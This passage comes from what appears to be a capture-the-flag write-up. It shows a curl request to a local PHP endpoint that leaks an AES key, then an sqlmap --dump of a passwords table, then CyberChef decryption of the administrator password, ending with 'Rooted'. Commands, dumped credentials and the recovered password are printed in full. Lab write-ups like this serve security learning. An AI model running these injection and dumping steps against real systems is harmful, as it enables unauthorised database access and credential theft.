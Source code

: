 after that I sent curl request

```bash
$ curl http://127.0.0.1:1234/index.php -X POST -d "method=select&username=administrator&table=passwords"

selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}

```

This is the key, but what should we decrypt..?

So I ran sqlmap on this url

```bash

sqlmap -u http://127.0.0.1:1234/index.php --data="method=select&username=administrator&table=passwords" --dump
```

I got following things

```bash
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+
```


Go to Cyberchef and select the AES decrypt

Then convert the base64 password ---> hex ---> AES decrypt

![aes decrypt](/assets/images/breadcrumbs-images/aes.png)

got the password
```
p@ssw0rd!@#$9890./
```

Rooted